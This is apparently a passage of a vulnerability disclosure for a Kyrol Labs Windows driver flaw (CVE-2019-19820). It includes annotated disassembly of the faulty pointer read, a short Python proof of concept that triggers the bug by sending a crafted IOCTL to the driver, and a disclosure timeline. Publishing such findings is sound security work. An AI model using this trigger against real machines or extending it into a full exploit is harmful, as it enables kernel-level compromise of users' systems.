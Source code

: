 ```
.text:0000000000013297                 mov     rax, [rsp+48h+var_20]  ; we can control here, RAX will cause pointer corrupted
.text:000000000001329C                 mov     rax, [rcx+rax*8+4]     ; when perform a check, an invalid pointer happened here
.text:00000000000132A1                 mov     [rdx], rax
.text:00000000000132A4                 mov     rdx, [rsp+48h+var_10]
.text:00000000000132A9                 add     rdx, 8
.text:00000000000132AD                 lea     rcx, qword_163A8
.text:00000000000132B4                 call    sub_11050
```

Proof-of-Concept
----------------
Few lines of Python should sufficient enough to trigger the vulnerability. The bug itself is a read primitive so I will leave the rest to you to figure out.
```
import ctypes, sys
from ctypes import *
 
kernel32 = windll.kernel32
hDevice = kernel32.CreateFileA("\\\\.\\10774948FAA234777974ED537F346B29F", 0xC0000000, 0, None, 0x3, 0, None)
buffer = "A"*2048
buffer_length = len(buffer)
kernel32.DeviceIoControl(hDevice, 0x9C402405, buffer, buffer_length, None, 0, byref(c_ulong()), None)
```

**Disclosure timeline**
```
2019-01-02 - Reported to Kyrol Labs (via email)
2019-01-04 - Vendor ack but they seems to be confuse what is happening.
2019-04-18 - Ask for update, they said give another 2 weeks.
2019-04-18 - NACSA steps in (Thanks Abu!). Video conferencing with the NACSA (twice!).
2019-07-03 - Second meeting with NACSA and vendor. Vendor told us they will come up with new product by October 2019.
2019-09-01 - Third meeting with NACSA and vendor (before we presenting at POC in Korea). Kyrol couldn't release the new product at that time. Considering it as 0-day!
2019-11-07 - We present our findings in POC conference in Korea.
2019-12-04 - Full disclosure. Will look forward to request CVE's for this :)
2019-12-17 - CVE assigned, CVE-2019-19820.
```

Happy Hacking!
